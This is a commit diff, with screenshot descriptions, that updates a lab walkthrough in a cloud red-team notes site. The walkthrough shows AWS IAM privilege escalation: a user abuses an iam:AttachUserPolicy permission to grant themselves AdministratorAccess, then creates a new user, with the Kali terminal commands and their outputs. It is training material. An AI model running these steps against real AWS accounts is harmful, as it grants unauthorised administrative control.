

Before and after one commit to tymyrddin/red-cloud, a Sphinx documentation site: the page built from source/docs/iam/overly-permissive-1.md, in a window 1280 px wide and 1400 px high, scrolled down 484 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
IAM Overly permissive permission I

````diff
--- a/source/docs/iam/overly-permissive-1.md
+++ b/source/docs/iam/overly-permissive-1.md
@@ -23,19 +23,38 @@ aws iam list-attached-user-policies --user-name student
 5. Check policy details for the Service policy:
 
 ```text
-aws iam get-policy --policy-arn arn:aws:iam::607486832336:policy/Service
+aws iam get-policy --policy-arn arn:aws:iam::862839114976:policy/Service
 ```
 
 6. View policy details for the v1 version of Service policy:
 
 ```text
-aws iam get-policy-version --policy-arn arn:aws:iam::607486832336:policy/Service --version-id v1
+┌──(kali㉿kali)-[~]
+└─$ aws iam get-policy-version --policy-arn arn:aws:iam::862839114976:policy/Service --version-id v1
+{
+    "PolicyVersion": {
+        "Document": {
+            "Statement": [
+                {
+                    "Action": "iam:AttachUserPolicy",
+                    "Effect": "Allow",
+                    "Resource": "arn:aws:iam::*:user/*"
+                }
+            ],
+            "Version": "2012-10-17"
+        },
+        "VersionId": "v1",
+        "IsDefaultVersion": true,
+        "CreateDate": "2023-05-11T09:02:39+00:00"
+    }
+}
 ```
 
 7. Try creating a new user, named bob:
 
 ```text
-aws iam create-user --user-name Bob
+┌──(kali㉿kali)-[~]
+└─$ aws iam create-user --user-name Bob
 ```
 
 FAIL.
@@ -43,25 +62,62 @@ FAIL.
 8. Get `AdministratorAccess` policy `arn`:
 
 ```text
-aws iam list-policies | grep ‘AdministratorAccess’
+┌──(kali㉿kali)-[~]
+└─$ aws iam list-policies | grep 'AdministratorAccess'
+            "PolicyName": "AdministratorAccess",
+            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess",
+            "PolicyName": "AdministratorAccess-Amplify",
+            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess-Amplify",
+            "PolicyName": "AWSAuditManagerAdministratorAccess",
+            "Arn": "arn:aws:iam::aws:policy/AWSAuditManagerAdministratorAccess",
+            "PolicyName": "AdministratorAccess-AWSElasticBeanstalk",
+            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk",
 ```
 
 9. Attach administrator policy to the current user:
 
 ```text
-aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
+┌──(kali㉿kali)-[~]
+└─$ aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
 ```
 
 10. Check with:
 
 ```text
-aws iam list-attached-policies --user-name student
+┌──(kali㉿kali)-[~]
+└─$ aws iam list-attached-user-policies --user-name student
+{
+    "AttachedPolicies": [
+        {
+            "PolicyName": "AdministratorAccess",
+            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
+        },
+        {
+            "PolicyName": "IAMReadOnlyAccess",
+            "PolicyArn": "arn:aws:iam::aws:policy/IAMReadOnlyAccess"
+        },
+        {
+            "PolicyName": "Service",
+            "PolicyArn": "arn:aws:iam::862839114976:policy/Service"
+        }
+    ]
+}
 ```
 
 11. Try creating a new user named Bob again:
 
 ```text
-aws iam create-user -user-name Bob
+┌──(kali㉿kali)-[~]
+└─$ aws iam create-user --user-name Bob
+{
+    "User": {
+        "Path": "/",
+        "UserName": "Bob",
+        "UserId": "AIDA4RZJYBTQHLY5KDFRX",
+        "Arn": "arn:aws:iam::862839114976:user/Bob",
+        "CreateDate": "2023-05-11T09:11:37+00:00"
+    }
+}
 ```
 
 Successfully performed a privileged operation.
--- a/source/index.rst
+++ b/source/index.rst
@@ -45,8 +45,8 @@ someone else's server, and the data is often in the clear, in motion and in use.
 
 ----
 
-Attacking and defending AWS
----------------------------------------------
+Pentester Academy: Attacking and defending AWS
+--------------------------------------------------
 
 .. toctree::
    :maxdepth: 1
````
